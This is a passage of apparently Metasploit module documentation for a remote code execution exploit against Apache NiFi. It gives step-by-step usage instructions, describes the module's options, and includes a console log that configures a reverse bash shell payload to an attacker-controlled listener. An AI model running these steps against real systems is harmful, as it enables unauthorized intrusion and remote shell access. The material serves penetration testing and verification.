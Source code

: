 [NiFi, Authentication and Authorization](https://ijokarumawak.github.io/nifi/2016/11/15/nifi-auth/) (configuring LDAP authentication).

## Verification Steps
1. Install the application.
1. Start msfconsole.
1. Do: `use exploit/multi/http/apache_nifi_processor_rce`.
1. Do: `set rhosts <ip address of NiFi host> `.
1. Do: `set lhost <ip address of metasploit machine`.
1. If necessary, do: `set rport <port of NiFi API>`.
1. If necessary, do: `set ssl true`.
1. If necessary, do: `set username <NiFi username>`.
1. If necessary, do: `set password <NiFi password>`.
1. If necessary, do: `set target 1` (this sets the target to Windows instead of Unix).
1. Do: `run`.
1. You should get a shell.

## Options

### TARGETURI

The base NiFi API path. Default: `/nifi-api`.

### DELAY

The delay in seconds before stopping and deleting the processor. This is required because the processor may not start immediately after
being created. Default: `5`.

### USERNAME

Username to authenticate with, if necessary. Optional.

### PASSWORD

Password to authenticate with, if necessary. Optional.

### BEARER-TOKEN

JWT authenticate with, if necessary. Optional.

## Scenarios

The version of NiFi that was installed on both platforms was 1.12.1.

### Windows 10.0.18363 Pro (no authentication required)

```
$ msfconsole -q
msf exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf exploit(multi/http/apache_nifi_processor_rce) > set target 1
target => 1
msf exploit(multi/http/apache_nifi_processor_rce) > set rhost 192.168.194.140
rhost => 192.168.194.140
msf exploit(multi/http/apache_nifi_processor_rce) > check
[*] 192.168.194.140:8080 - The target appears to be vulnerable.
msf exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444 
[*] Waiting 5 seconds before stopping and deleting
```